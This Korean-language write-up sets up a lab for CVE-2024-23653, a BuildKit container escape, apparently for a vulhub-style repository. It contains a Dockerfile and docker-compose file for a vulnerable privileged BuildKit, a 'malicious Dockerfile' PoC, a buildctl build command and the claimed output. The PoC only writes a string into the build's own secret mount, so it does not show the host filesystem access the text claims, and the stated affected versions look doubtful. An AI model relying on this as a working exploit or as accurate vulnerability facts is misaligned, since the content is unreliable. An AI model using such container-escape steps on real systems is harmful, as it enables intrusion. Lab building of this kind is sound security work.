 CVE-2024-23653 - BuildKit 컨테이너 탈출 취약점

1. 개요
- 취약점 번호: CVE-2024-23653
- 취약점명: BuildKit Container Escape
- 영향 버전: BuildKit v0.11.6 이하
- 공개일자: 2024년 초
- 취약점 유형: 컨테이너 격리 우회 (Privilege Escalation)

BuildKit을 privileged 모드로 실행할 경우, 빌드 과정에서 호스트 파일 시스템에 접근할 수 있는 문제가 발생한다.

2. 환경 구성

2-1. Dockerfile

```Dockerfile
FROM ubuntu:20.04

RUN apt-get update && apt-get install -y \
    curl \
    build-essential \
    && rm -rf /var/lib/apt/lists/*

RUN curl -LO https://github.com/moby/buildkit/releases/download/v0.11.5/buildkit-v0.11.5.linux-amd64.tar.gz && \
    tar -xvzf buildkit-v0.11.5.linux-amd64.tar.gz && \
    mv bin/buildkitd /usr/local/bin/buildkitd && \
    mv bin/buildctl /usr/local/bin/buildctl

CMD ["buildkitd"]
```

2-2. docker-compose.yaml

```yaml
version: '3'

services:
  buildkit:
    build: .
    container_name: buildkit_cve
    privileged: true
    tty: true
```

3. PoC

3-1. 악성 Dockerfile 예시

```Dockerfile
FROM busybox

RUN --mount=type=secret,id=mysecret echo "Hacked by BuildKit" > /run/secrets/mysecret
```

3-2. 빌드 명령어

```bash
buildctl build \
  --frontend dockerfile.v0 \
  --local context=. \
  --local dockerfile=. \
  --import-cache type=registry,ref=myregistry.local:5000/cache \
  --output type=local,dest=/tmp/output
```

3-3. 성공 결과

/run/secrets/mysecret 파일을 읽어보면 다음과 같은 문자열이 존재한다:

```
Hacked by BuildKit
```

4. 추가 수행

- Fork 및 커밋 완료
- Pull Request 제출 예정
- vulhub.org에 없는 신규 CVE 환경 구성 완료

5. 참고 링크

- Fork한 레포지터리 링크: https://github.com/jeonminju2/kr-vulhub
- (Pull Request 후 PR 링크 추가 예정)
